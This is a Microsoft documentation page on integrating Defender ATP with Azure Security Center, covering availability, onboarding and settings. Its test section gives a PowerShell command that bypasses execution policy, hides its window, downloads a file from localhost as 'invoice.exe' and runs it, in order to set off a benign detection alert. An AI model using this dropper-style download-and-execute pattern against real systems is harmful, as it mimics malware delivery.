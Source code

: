 ﻿---
title: Microsoft Defender Advanced Threat Protection - Azure Security Center
description: This document introduces the integration between Azure Security Center and Microsoft Defender Advanced Threat Protection.
services: security-center
documentationcenter: na
author: memildin
manager: rkarlin
ms.service: security-center
ms.devlang: na
ms.topic: how-to
ms.tgt_pltfrm: na
ms.workload: na
ms.date: 10/07/2020
ms.author: memildin
---
# Microsoft Defender Advanced Threat Protection with Azure Security Center

Azure Security Center integrates with [Microsoft Defender Advanced Threat Protection (ATP)](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp) to provide comprehensive Endpoint Detection and Response (EDR) capabilities.


## Availability

|Aspect|Details|
|----|:----|
|Release state:|Generally available (GA)|
|Pricing:|Requires [Azure Defender](security-center-pricing.md)|
|Supported machines:|![Yes](./media/icons/yes-icon.png) Azure machines running Windows<br>![Yes](./media/icons/yes-icon.png) Azure Arc machines running Windows|
|Required roles and permissions:|To enable/disable the integration: **Security admin** or **Owner**<br>To view MDATP alerts in Security Center: **Security reader**, **Reader**, **Resource Group Contributor**, **Resource Group Owner**, **Security admin**, **Subscription owner**, or **Subscription Contributor**|
|Clouds:|![Yes](./media/icons/yes-icon.png) Commercial clouds.<br>![No](./media/icons/no-icon.png) GCC customers running workloads in public Azure clouds<br>![Yes](./media/icons/yes-icon.png) US Gov<br>![No](./media/icons/no-icon.png) China Gov, Other Gov|
|||


## Microsoft Defender ATP features in Security Center

Microsoft Defender ATP provides:

- **Advanced post-breach detection sensors**: Microsoft Defender ATP sensors for Windows servers collect a vast array of behavioral signals.

- **Analytics-based, cloud-powered post breach detection**: Microsoft Defender ATP quickly adapts to changing threats. It uses advanced analytics and big data. Microsoft Defender ATP is amplified by the power of the Intelligent Security Graph with signals across Windows, Azure, and Office to detect unknown threats. It provides actionable alerts and enables you to respond quickly.

- **Threat intelligence**: Microsoft Defender ATP generates alerts when it identifies attacker tools, techniques, and procedures. It uses data generated by Microsoft threat hunters and security teams, augmented by intelligence provided by partners.


By integrating Defender ATP with Azure Security Center, you can also benefit from the following additional capabilities:

- **Automated onboarding**: The integration automatically enables the Microsoft Defender ATP sensor for Windows servers that monitored by Azure Security Center (unless they're running Windows Server 2019).

- **Single pane of glass**: The Azure Security Center console displays Microsoft Defender ATP alerts. To investigate further, use Microsoft Defender ATP. Microsoft Defender ATP provides additional information such as the alert process tree and the incident graph. You can also see a detailed machine timeline that shows every behavior for a historical period of up to six months.

    ![Microsoft Defender ATP page with detailed information about an alert](media/security-center-wdatp/image3.png)

## Platform support

Microsoft Defender ATP in Security Center supports detection on Windows Server 2016, 2012 R2, and 2008 R2 SP1. For Azure VMs you need a to enable Azure Defender on your subscription, and for Non-Azure VMs you need Azure Defender to be enabled at the workspace level only.

Server endpoint monitoring using this integration has been disabled for Office 365 GCC customers.

## Data storage location

When you use Azure Security Center to monitor servers, a Microsoft Defender ATP tenant is automatically created. Data collected by Microsoft Defender ATP is stored in the geo-location of the tenant as identified during provisioning. Customer data in pseudonymized form may also be stored in the central storage and processing systems in the United States. 

Once configured, you cannot change the location where your data is stored. If you need to move your data to another location, contact Microsoft Support to reset the tenant.


## Onboard servers to Security Center 

To onboard servers to Security Center, click **Go to Azure Security Center to onboard servers** from the Microsoft Defender ATP server onboarding.

1. In the **Onboarding** area, select or create a workspace in which to store the data.

2. If you can't see all your workspaces, it may be due to a lack of permissions, make sure your workspace is protected by Azure Defender.
    
3. Select **Add servers** to view instructions on how to install the Log Analytics agent. 

4. After onboarding, you can monitor the machines in [asset inventory](asset-inventory.md).

   ![Onboard computers](media/security-center-wdatp/onboard-computers.png)

## Enable Microsoft Defender ATP integration

To view if Microsoft Defender ATP integration is enabled, select **Security center** > **Pricing & settings** > select your subscription.

Here you can see the integrations currently enabled.

  ![Azure Security Center threat detection settings page with Microsoft Defender ATP integration enabled](media/security-center-wdatp/enable-integrations.png)

- If you've already enabled Azure Defender, no further action is necessary. Azure Security Center will automatically onboard the servers to Microsoft Defender ATP. Onboarding might take up to 24 hours.

- If you've never onboarded the servers to Azure Security Center, onboard them to Azure Security Center and enable Azure Defender as usual.

- If you've onboarded the servers through Microsoft Defender ATP:
  - Refer to the documentation for guidance on [how to offboard server machines](https://go.microsoft.com/fwlink/p/?linkid=852906).
  - Onboard these servers to Azure Security Center.

## Access to the Microsoft Defender ATP portal

1. Follow the instructions in [Assign user access to the portal](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/assign-portal-access).

1. Check whether you have a proxy or firewall that is blocking anonymous traffic. The Defender ATP sensor connects from the system context, so anonymous traffic must be permitted. To ensure unhindered access to the Microsoft Defender ATP portal, follow the instructions in [Enable access to Microsoft Defender ATP service URLs in the proxy server](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-proxy-internet#enable-access-to-microsoft-defender-atp-service-urls-in-the-proxy-server).

## Test the feature

To generate a benign Microsoft Defender ATP test alert:

1. Create a folder 'C:\test-MDATP-test'.

1. Use Remote Desktop to access either a Windows Server 2012 R2 VM or a Windows Server 2016 VM. Open a command-line window.

1. At the prompt, copy and run the following command. The Command Prompt window will close automatically.

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```

   ![A Command Prompt window with the command above](media/security-center-wdatp/image4.jpeg)

1. If the command is successful, you'll see a new alert on the Azure Security Center dashboard and the Microsoft Defender ATP portal. This alert might take a few minutes to appear.

1. To review the alert in Security Center, go to **Security alerts** > **Suspicious PowerShell CommandLine**.

1. From the investigation window, select the link to go to the Microsoft Defender ATP portal.

## Next steps

- [Platforms and features supported by Azure Security Center](security-center-os-coverage.md)
- [Setting security policies in Azure Security Center](tutorial-security-policy.md): Learn how to configure security policies for your Azure subscriptions and resource groups.
- [Managing security recommendations in Azure Security Center](security-center-recommendations.md): Learn how recommendations help you protect your Azure resources.
- [Security health monitoring in Azure Security Center](security-center-monitoring.md): Learn how to monitor the health of your Azure resources.